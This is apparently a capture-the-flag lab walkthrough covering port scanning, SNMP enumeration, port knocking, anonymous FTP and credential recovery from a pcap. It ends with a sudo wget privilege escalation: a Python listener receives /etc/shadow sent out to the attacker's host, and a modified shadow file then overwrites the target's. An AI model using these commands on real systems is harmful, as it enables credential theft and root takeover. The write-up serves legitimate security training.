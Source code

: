 ﻿# Machine 1

## First flag
First we should make a port scan:

```nmap -A -Pn <target-ip>```

```
21/tcp filtered ftp
22/tcp open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4f:d3:06:c9:29:81:07:68:3a:c1:2b:49:12:39:c6:19 (RSA)
|   256 f8:fe:33:8d:d9:d5:97:3b:14:08:18:10:4f:3a:19:5c (ECDSA)
|_  256 c2:d5:c2:60:62:0d:cd:a9:83:01:92:b6:dd:be:d6:a2 (ED25519)
80/tcp open     http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Here we have an ftp port with a filtered status, this means that the port on the target host is being blocked by a firewall.

Now we gonna udp scan the target host:

```nmap -sU <target-ip>```

We can see an snmp port is opened by using, ``snmpwalk`` we can wuery enabled device and take SNMP data from a device

```snmpwalk -c public <traget-ip> .```

and we have an information ftp bay on 7000 8000 9000

What we can try now is Port knocking using this sequence to try to open the port.

```Port knocking is a security technique used to control access to a network or computer system. It works by requiring the user to send a specific sequence of connection requests to a set of ports in order to gain access. The sequence of requests is known as a “knock”, and the ports are usually closed until the correct knock is received. Once the correct knock is received, the ports are opened and the user is granted access.```

We can use ```knock``` command:

```knock <target-ip> 7000 8000 9000```

Now if we retry nmap scan we can see that the ftp port is opened now:

![enter image description here](https://i.ibb.co/3khwZM6/nmap-scan.png)

Since it is opened now, we connect to it using anonymous user and anonymous in password:

```ftp anonymous@<target-ip>```

![enter image description here](https://i.ibb.co/3cY84MD/ftp.png)

and we get the file that we found ``login.pcap``. After using ``strings`` command to search for any readable information:

![enter image description here](https://i.ibb.co/Tg2Prk2/login-pcap.png)

And there we found some credentials, we can try to login using ssh after decoding the password:

![enter image description here](https://i.ibb.co/WPVVZCC/ssh.png)

we can find the first flag.

## Second Flag

After connecting to the machinem we should try ``sudo -l``:

![enter image description here](https://i.ibb.co/syH6vjV/sudo-l.png)

We can use ``wget`` as a root user without password.

So now we can get the ``shadow`` file, on our machine and try to modify it,

Now we should create an http server that support the ```POST``` http method using this pyhton script:

```
from http.server import HTTPServer, BaseHTTPRequestHandler

class  PostHandler(BaseHTTPRequestHandler):
  def  do_POST(self):
    # Read and parse post data
    post_data = self.rfile.read(int(self.headers['Content-Length']))
    # Handle request and respond
    self.send_response(200)
    self.send_header('Content-type','text/html')
    self.end_headers()
    # Save file to your machine
    with  open('path/to/save/file', 'wb') as f:
      f.write(post_data)

# Create server and define request handler
httpd = HTTPServer(('', 8080), PostHandler)
# Start serving
httpd.serve_forever()
```

> Change the path/to/save/fileto where do you want this file to be opened and name the file shadow.

After running the script our server is running on 8080 port. Now we can send the ```shadow``` file from the target machine going back to our ssh. Now we send the file using wget:

```sudo wget --post-file=/etc/shadow <my-ip>:8080```

![enter image description here](https://i.ibb.co/Jj5Tyd2/wget-post.png)

We can go back to our machine and there we can see our file is created on the path we entered.
 Now we gonna try to change the root password to kabayla password.
 
 The last step, is to replace the ``shadow`` file on the target machine with our modified ``shadow`` file.

we reopen a http server using ``python3 -m http.server``. And try to download the shadow file on the target machine using ``wget``, on the target machine:

``sudo wget <my-ip>/shadow -O /etc/shadow``

> Use of **-O** is _not_ intended to mean simply "use the name _file_ instead of the one in the URL ;" rather, it is analogous to shell redirection: **wget -O file http://foo** is intended to work like **wget -O - http://foo > file**; _file_ will be truncated immediately, and _all_ downloaded content will be written there.

So our shadow file content will be redirected to the /etc/shadow on the target machine.

And finally now we can connect to root with the password of kabayla user.

